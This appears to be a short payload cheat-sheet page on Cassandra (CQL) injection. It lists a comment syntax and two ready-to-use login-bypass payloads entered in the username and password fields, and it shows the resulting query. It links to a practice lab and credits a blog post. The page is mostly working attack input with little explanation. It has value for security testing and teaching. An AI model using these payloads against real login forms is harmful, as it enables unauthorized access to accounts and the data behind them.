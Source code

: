 # Cassandra Injection

> Apache Cassandra is a free and open-source distributed wide column store NoSQL database management system

## Cassandra comment

```sql
/* Cassandra Comment */
```

## Cassandra - Login Bypass

### Login Bypass 0

```sql
username: admin' ALLOW FILTERING; %00
password: ANY
```

### Login Bypass 1

```sql
username: admin'/*
password: */and pass>'
```

The injection would look like the following SQL query

```sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
```

Example from EternalNoob : [https://hack2learn.pw/cassandra/login.php](https://hack2learn.pw/cassandra/login.php)

## Thanks to

* [Injection In Apache Cassandra – Part I - Rodolfo - EternalNoobs](https://eternalnoobs.com/injection-in-apache-cassandra-part-i/)
